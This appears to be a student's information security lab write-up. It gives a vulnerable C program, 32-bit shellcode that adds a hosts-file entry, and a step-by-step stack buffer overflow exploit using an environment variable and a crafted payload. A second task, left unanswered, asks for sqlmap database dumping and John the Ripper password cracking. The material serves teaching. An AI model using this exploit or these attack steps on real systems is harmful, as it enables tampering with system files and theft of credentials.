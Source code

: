 # Lab #1,22110075, Ha Quoc Tien, INSE330380E_02FIE
# Task 1: Software buffer overflow

Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)
**Idea to attack**
- In the `vuln.c`, strcpy in vulnerable to buffer-overflow, which we can exploit to overwrite the return address and force the program to execute our shellcode.
- But, since the buffer size is now only 16 bytes, you will need to calculate the exact amount of data that will overflow the buffer and overwrite the return address.

**Step 1: Compile asm program and C program to executable code.**
- First, compile the asm program:`nasm -f elf32 -o shellcode.o shellcode.asm`<br>
    - Use `ld -o shellcode shellcode.o` to link object code to create executable file

- Second, complie the C program: `gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`<br>
    - `-fno-stack-protector`: This disables stack protection mechanisms that prevent buffer overflows.
    - `-mpreferred-stack-boundary=2`: option in GCC is used to specify the alignment of the stack.
    - `-z execstack`: This makes the stack executable, allowing us to run shellcode.

**Step 2: Extrac the shellcode**
- We need to extract the shellcode in raw byte format to inject it into the C program's buffer.

 >`objdump -d ./shellcode | grep '[0-9a-f]:' | cut -f2- | cut -d' ' -f1 | xxd -r -p > shellcode.bin`
 - This command generates a binary file shellcode.bin containing the raw shellcode.

**Step 3: Determine the Buffer Overflow Point**
- Stack frame

    ![task1_1](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Lab1/img/task1_1.png)

- From the stack frame, we can see that the return address is located 24 bytes after the start of the buffer. Therefore, we will need to overflow the buffer with 20 bytes of junk and then overwrite the return address with the address of our shellcode (4 bytes).

**Step 4:  Craft the Exploit Payload**
- The payload consists of three parts:
    1. 20 bytes of junk
    2. The address of the shellcode (an environment variable)
    3. the shellcode, place in an environment variable

- Place the shellcode in an environment variable: `export SHELLCODE=$(cat shellcode.bin)`
- Use `GDB` to get the environment variable's address
    - `gdb vuln.out`
    - Disassemble the main function: `disas main`
    - Run the function and then search for the environment variable's address using: `print getenv("SHELLCODE")`
     
        ![task1_2](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Lab1/img/task1_2.png)

- Next, construct the payload using a Python script:<br>
    `python -c 'print "A"*20 + "\xb8\xdf\xff\xff"' > payload`

**Step 5: Run the Exploit**
- Finally, run the vulnerable program with the crafted payload. The shellcode will be executed, and the /etc/hosts file will be modified.<br>
`./vuln.out $(cat payload)`

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
